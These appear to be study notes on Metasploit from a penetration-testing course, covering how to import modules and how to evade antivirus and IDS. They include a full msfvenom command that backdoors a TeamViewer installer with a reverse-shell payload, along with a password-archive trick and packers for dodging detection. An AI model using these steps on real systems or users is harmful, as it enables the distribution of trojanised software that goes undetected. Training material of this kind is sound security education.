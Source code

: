 ## Writing and Importing Modules

From ExploitDB we can search with filtering for only Metasploit exploits, we can then load it locally to our framework.

We can copy installed modules to the `/usr/share/metasploit-framework/` location or to the `~/.msf4/` location, which might not have all folders and we will need to create a new folder.

### MSF - Loading Additional Modules at runtime
```shell-session
[/htb]$ cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb
[/htb]$ msfconsole -m /usr/share/metasploit-framework/modules/
```

### MSF - Loading Additional Modules
```shell-session
msf6> loadpath /usr/share/metasploit-framework/modules/
```

Alternatively we can run the `reload_all` from inside msfconsole.

### Porting Over Scripts into Metasploit Modules

Ruby modules for Metasploit are always written using hard tabs. To port over scripts written in any programming language to metasploit modules in `.rb` files, we will need to find the appropriate mixins classes and methods required for our module to work, we will need to look up the different entries on the [rubydoc rapid7 documentation](https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf).

All necessary information about Metasploit Ruby coding can be found on the [Rubydoc.info Metasploit Framework](https://www.rubydoc.info/github/rapid7/metasploit-framework) related page. From scanners to other auxiliary tools, from custom-made exploits to ported ones, coding in Ruby for the Framework is an amazingly applicable skill.

To create our on module we can look at an existing one as reference or change it according to our needs, an example of this can be found at https://academy.hackthebox.com/module/39/section/417.

If you would like to learn more about porting scripts into the Metasploit Framework, check out the [Metasploit: A Penetration Tester's Guide book from No Starch Press](https://nostarch.com/metasploit). Rapid7 has also created blog posts on this topic, which can be found [here](https://blog.rapid7.com/2012/07/05/part-1-metasploit-module-development-the-series/).

## MSFVenom

A powerful payload generator.

## Firewall and IDS/IPS Evasion

With the MSF6 release msfconsole can tunnel AES-encrypted communication from any Meterpreter shell back to our attacker host which will encrypt the traffic sent to the victim, enough to evade most network-based IDS/IPS, sometimes a ruleset will flag traffic based on the sender's IP address, to bypass this we can search for a service that is allowed through, some of the attacks used are:

- [US Government Post-Mortem Report on the Equifax Hack](https://www.zdnet.com/article/us-government-releases-post-mortem-report-on-equifax-hack/)
- [Protecting from DNS Exfiltration](https://www.darkreading.com/risk/tips-to-protect-the-dns-from-data-exfiltration/a/d-id/1330411)
- [Stoping Data Exfil and Malware Spread through DNS](https://www.infoblox.com/wp-content/uploads/infoblox-whitepaper-stopping-data-exfiltration-and-malware-spread-through-dns.pdf)

To bypass detection when the payload is running on the host, msfvenom offers executable templates which we will inject payloads to the pre-set executable templates, and use any executable as a platform from which we will launch our attack. We can embed the shell code into any installer, package, or program we have in hand, this generates what called a backdoor executable.

Example:
```shell-session
$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

The `-k` flag ensures the application will run as normal upon execution, running it from the CLI will result in another window opening for the backdoor, and not closing until we stop running the payload session interaction on the target.

### Archives

Placing password on an archived piece of information can bypass antivirus, but the antivirus will raise a notification on the dashboard that it cannot scan the data because of the password, and the administrator may inspect it manually.

#### Archiving the payload
```shell-session
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz # Install the rar utility for Linux
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js # Archive a payload
$ mv test.rar test # Remove the tar extension
$ rar a test2.rar -p test # Archiving the payload again
$ mv test2.rar test2 # Remove the tar extension
```

Now running `msf-virustotal -k <API key> -f test2` will show no antivirus can detect it.

### Packers

Packer refers to the result of executable compression, process where the payload is packed together with an executable program and with the decompression code in one single file, when run the code returns the backdoored executable to the original state, msfvenom provides an ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:

| | | |
|---|---|---|
|[UPX packer](https://upx.github.io)|[The Enigma Protector](https://enigmaprotector.com)|[MPRESS](https://www.matcode.com/mpress.htm)|
|Alternate EXE Packer|ExeStealth|Morphine|
|MEW|Themida||

If we want to learn more about packers, please check out the [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf).

### Exploit Coding

We can make an exploit we are writing ourselves or porting over harder for security programs to detect, for example by using randomization, we should also avoid using obvious NOP sleds in BoF exploit.

For more information about exploit coding, we recommend checking out the [Metasploit - The Penetration Tester's Guide](https://nostarch.com/metasploit) book from No Starch Press. They delve into quite some detail about creating our exploits for the Framework.
